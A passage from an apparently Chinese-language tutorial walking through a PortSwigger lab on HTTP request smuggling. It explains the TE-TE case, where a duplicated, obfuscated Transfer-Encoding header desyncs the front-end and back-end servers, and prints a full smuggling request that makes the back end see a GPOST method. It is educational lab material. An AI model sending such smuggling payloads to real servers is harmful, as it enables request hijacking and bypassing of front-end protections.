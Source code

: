 [![](assets/1698897445-50739784537586e903d8cf76a72df3ae.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191122230209.png)

过程流程与 CL-TE 类似，Front 服务器处理这个请求的时候按照 TE 优先处理，会认为上面的请求为一个请求整体，然后转发给 Backend 服务器，Backend 服务器在处理的时候按照 CL 优先处理，会认为`12\r\n`为第一个请求的 body ，以下为第二个请求，所以会响应 GPOST 为无法识别的 HTTP Method。

### Two Identical Fields - TE

这里我们来看 TE 都存在的情况，同样我们借助 LAB 实验来加深理解：[Lab: HTTP request smuggling, obfuscating the TE header](https://portswigger.net/web-security/request-smuggling/lab-ofuscating-te-header)

> This lab involves a front-end and back-end server, and the two servers handle duplicate HTTP request headers in different ways. The front-end server rejects requests that aren't using the GET or POST method.
> 
> To solve the lab, smuggle a request to the back-end server, so that the next request processed by the back-end server appears to use the method GPOST.

按照题目提示，我们要达到的仍然是让后端收到 GPOST 请求，而且场景也明确告诉我们是一种 TE-TE 的场景。其实这个场景也可以认为是相同字段的场景处理，比如说在处理两个 TE 字段，如果取第二个 TE 字段作为解析标准，而第二个字段值非正常或者解析出错，就可能会忽略掉 TE 字段，而使用 CL 字段进行解析。比如在这个 LAB 中，我们发送两遍如下请求：

```plain
POST / HTTP/1.1
Host: acfd1f201f5fb528809b582e004200a3.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=9swxitdhJRXeFhq77wGSU7fKw0VTiuzQ
Cache-Control: max-age=0
Content-length: 4
Transfer-Encoding: chunked
Transfer-encoding: nothing

12
GPOST / HTTP/1.1

0
```

